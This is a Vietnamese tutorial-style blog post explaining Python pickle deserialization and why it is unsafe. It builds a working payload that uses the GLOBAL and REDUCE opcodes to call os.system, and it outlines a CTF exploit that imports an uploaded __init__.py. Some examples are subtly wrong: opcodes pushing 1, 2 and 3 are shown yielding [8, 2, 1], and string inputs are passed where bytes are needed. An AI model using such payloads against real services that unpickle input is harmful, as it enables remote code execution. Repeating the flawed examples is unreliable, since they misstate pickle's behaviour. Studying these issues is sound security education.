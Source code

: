 # Cách mà pickle deserialize dữ liệu

## Bối cảnh của bài viết này

Mình luôn thắc mắc về cách hoạt động của pickle từ khi biết về sự tồn tại của nó. Tuy nhiên mãi cho tới khi bị ăn hành bởi một bài [CTF](../../2022/hitconCTF_2022/S0undCl0ud/) thì mình mới đi tìm hiểu 😁.

## Serialize và deserialize

Todo 😉

## Pickle format
Quá trình serialize dữ liệu (số nguyên, list, dictionary, ...) của pickle sẽ cho ra một dãy byte. Nên khi deserialize ta sẽ xem xét một dãy byte. Các byte liên quan khi gộp lại sẽ thành opcode, một opcode sẽ thực hiện một thao tác. Như vậy ta sẽ có dãy các opcode. Dãy opcode đó khi cần deserialize thì sau khi đi qua một machine gọi là pickle machine (PM) sẽ xây dựng được thành một object Python phức tạp.

PM có hai trường dữ liệu, `stack` và `memo`:
- `memo`: nơi giúp lưu lại một số kết quả để tối ưu cho quá trình.
- `stack`: đúng như tên gọi của nó, nó sử dụng cấu trúc dữ liệu stack. Ta sẽ tập trung vào đây hơn là `memo`.

Một vài opcode sẽ có tác dụng đẩy object vào `stack` hoặc lấy object ra khỏi `stack`. Cho tới khi gặp opcode cho lệnh `STOP` được thực thi. Những gì còn lại trong `stack` sau khi thực thi lệnh `STOP` sẽ là output của quá trình deserialize.

## Quá trình deserialize
Opcode sẽ gồm hai phần, phần đầu là một byte thể hiện loại thao tác, heo sau đó là các argument. Mỗi argument kết thúc bằng ký tự `\n` (new line). Dấu chấm `.` sẽ thể hiện cho `STOP`.

Ví dụ: để deserialize được ra string `'abcdefgh2808'`. Ta có byte thể hiện loại thao tác là `S` (thể hiện đẩy vào `stack` một string) và argument là `'abcdefgh2808'`. Và kết thúc opcode bằng `\n` rồi kết thúc quá trình deserialize bằng dấu chấm `.`. Ta được: `S'abcdefgh2808'\n.`

```
>>> import pickle
>>> pickle.loads("S'abcdefgh2808'\n.")
'abcdefgh2808'
```

Trong `stack` sẽ có như sau:
```
abcdefgh2808
```

:v Ví dụ này hơi đơn giản nên `stack` cũng đơn giản nốt. Nó bỏ string kia vô `stack` rồi gặp `.` nên `STOP` luôn. Ta sẽ thử ví dụ sau cho dễ hiểu hơn.

Ví dụ: Để xây dựng list `[8, 2, 1]`, sẽ có ký tự `(` để thể hiện bắt đầu list và `l` để thể hiện kết thúc list. Ta sẽ có chuỗi opcode như sau:

```
>>> pickle.loads("(I1\nI2\nI3\nl.")
[8, 2, 1]
```

Khi xét đoạn `(I1\nI2\nI3\n`, `stack` của ta như sau:
```
1
2
8
(
```

Sau đó khi gặp ký tự `l` PM sẽ lấy hết những thứ sau `(` bỏ vào list và ta được `stack` như sau:
```
[8, 2, 1]
```

Dấu `(` cũng bị đẩy ra khỏi stack.

Nested list cũng được xây dựng tương tự như thế: 
```
>>> pickle.loads(b"(S'abcdefgh2808'\n(I1\nI2\nS'3'\nll.")
['abcdefgh2808', [1, 2, '3']]
```

Ngoài ra, pickle cũng có nhiều ký tự đại diện cho các [lệnh](https://github.com/python/cpython/blob/main/Lib/pickle.py) khác:

![Oops](./images/some_opcodes.jpg)

Mỗi ký tự sẽ có một tên khác: Ví dụ `(` có tên là `MARK`.

## Pickletools
Trong Python có module `pickletools` với hàm `genops` sẽ giúp con người đọc opcode dễ hơn.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b"cos\nsystem\nS'ls'\n\x85R.")
>>>
>>> for x in opcode:
...     print(x[0].name, x[1])
...
GLOBAL os system
STRING ls
TUPLE1 None
REDUCE None
STOP None
```

Đôi lúc ta sẽ bắt gặp lập trình viên sử dụng `pickletools` để filter trước khi deserialize bằng cách giới hạn các lệnh và nội dung của lệnh.

## Vấn đề của pickle
Khi deserialize nó thực thi một số lệnh, và trong các lệnh đó có một vài lệnh không an toàn để sử dụng. Ví dụ như:
```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STACK_GLOBAL   = b'\x93'  # same as GLOBAL but using names on the stacks
TUPLE1         = b'\x85'  # build 1-tuple from stack top
```

Cụ thể:
- `REDUCE` được dùng để gọi callable. Callable là những gì có thể được gọi, điển hình là hàm. Chú ý là cả callable và argument tuple của callable đó đều được lấy từ `stack`. Do đó attacker có thể sử dụng nó để thực thi code. Ở ví dụ phía dưới, mình sẽ lấy callable là `os.system` và tuple là `('ls',)`. Thì khi gọi được callable ta sẽ thực thi được lệnh `ls` trên shell.
- `GLOBAL` và `STACK_GLOBAL` được dùng để gọi `self.find_class()` có tác dụng tìm thuộc tính của một object và trả về nó. Ta có thể lợi dụng nó để tìm thuộc tính thành viên là một hàm để hỗ trợ cho `REDUCE`.

    ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0] # Là getattr(sys.modules[module], name) nhưng có thêm vài tính năng khác
        else:
            return getattr(sys.modules[module], name)
    ```

    Ta thấy rằng `find_class(module, name)` sẽ import một module rồi trả về `getattr(sys.modules[module], name)`. Ta có thể sử dụng nó để `import os` rồi lấy hàm `system` để thực hiện RCE. `module` sẽ là `os` và `name` sẽ là `system`.

    ```
    >>> import pickle                                                                                                       
    >>> import sys                                                                                                          
    >>>                                                                                                                     
    >>> __import__('os', level=0)                                                                                           
    <module 'os' from '/usr/lib/python3.8/os.py'>                                                                           
    >>> getattr(sys.modules['os'], 'system')                                                                                
    <built-in function system> 
    >>>                                                                                             
    >>> pickle.loads(b"cos\nsystem\n.")    # ở đây sử dụng GLOBAL để demo, có thể sử dụng STACK_GLOBAL cũng được, nhưng sẽ cần thay đổi byte 
    <built-in function system>
    ```

    `system` chính là callable mà ta hướng tới.
- Ta đã có callable rồi, bây giờ ta cần argument tuple nữa. Ta sẽ dùng `\x85` để tạo tuple `('ls',)` như sau:
    ```
    >>> pickle.loads(b"S'ls'\n\x85.")                                                                                       
    ('ls',)
    ```

- Kết hợp mọi thứ lại ta có:
    ```
    >>> pickle.loads(b"cos\nsystem\nS'ls'\n\x85R.") 
    bin   dev  home  ...
    ```

Vậy là ta đã thực thi được code, là điều mà mọi hacker đều muốn 😁

Ngoài ra, mình cũng từng gặp một concept exploit ([bài phân tích ở đây nè](../../2022/hitconCTF_2022/S0undCl0ud/) 😆) như sau:
- Upload file `__init__.py` vào một thư mục.
- Sau đó lợi dụng `STACK_GLOBAL` hoặc `GLOBAL` để `__import__()` thư mục chứa file `__init__.py` vào thế là thực thi được code. 🤯

## Tham khảo
- https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/
- https://github.com/python/cpython/blob/main/Lib/pickle.py
